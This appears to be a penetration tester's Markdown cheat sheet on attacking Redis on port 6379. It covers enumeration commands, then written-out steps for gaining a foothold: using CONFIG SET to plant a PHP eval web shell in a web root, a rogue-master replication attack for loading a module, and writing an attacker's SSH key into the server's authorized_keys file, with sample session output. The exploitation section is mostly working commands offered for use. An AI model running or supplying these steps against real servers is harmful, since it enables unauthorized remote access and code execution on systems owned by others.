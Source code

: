 ```yaml
---
id: services
aliases: []
tags: []
---
```

# Services 
[[#Redis /6379]]
  
  
## Redis /6379
> Redis is an open source, in-memory data structure store, used as a database, cache and message broker.

### Enumeration:    
```bash
   nmap --script redis-info -sV -p 6379 <IP>
   msf> use auxiliary/scanner/redis/redis_server
 ```
### Commands:
> [Cheat-Sheet](https://lzone.de/#/LZone%20Cheat%20Sheets/DevOps%20Services/Redis)

### Exploitation
> [!TIP]
> 
> #### Authentication:
> ***Brute force***

1. **Easy**:
> [!IMPORTANT] 
>Must have rights to access the dir / Must know the web root dir

```redis 
CONFIG SET
1. Change database file location
CONFIG SET dir /var/www/uploads/
2. Change database file name
CONFIG SET dbfilename sh.php
3. Inject your shell payload into database
SET PAYLOAD '<?php eval($_GET[0]);?>'
4. Save database to file
BGSAVE
```
2. **[Redis-rogue-server.py](https://github.com/n0b0dyCN/redis-rogue-server)** 
> Sets a redis server which operates as a master and sends commands and writes to files to target with partial or total resynchronization 
```redis
rogue server
1. PING - test if a connection is still alive
+PONG
2. REPLCONF - exchange replication information between
master and slave
+OK
3. PSYNC/SYNC <replid> - synchronize slave state with
the master (partial or full)
+CONTINUE <replid> 0
[Source](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)
```

> [!note]
> Compile the .so on your machine
> run `redis-cli -h <IP> flushall` to remove all changes otherwise it can give an error  



3. **ssh** :
>Generate a ssh public-private key pair on your pc: 

   `ssh-keygen -t rsa`

> Write the public key to a file : 

  `(echo -e "u\n\nu"; cat ~/id_rsa.pub; echo -e "\n\n") > spaced_key.txt`

> Import the file into redis : 

`cat spaced_key.txt | redis-cli -h 10.85.0.52 -x set ssh_key`

> Save the public key to the authorized_keys file on redis server:

```
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /var/lib/redis/.ssh
OK
10.85.0.52:6379> config set dbfilename "authorized_keys"
OK
10.85.0.52:6379> save
OK
```

> Finally, you can ssh to the redis server with private key : 

`ssh -i id_rsa redis@10.85.0.52 `

### ***Tags***:
| OS | Vuln versions | Techniques |
|----| ------------- | ---------- |
| Windows, Linux | 4 - 5  | SSRF, SSH, Reverse-shell, Web-shell  |
 



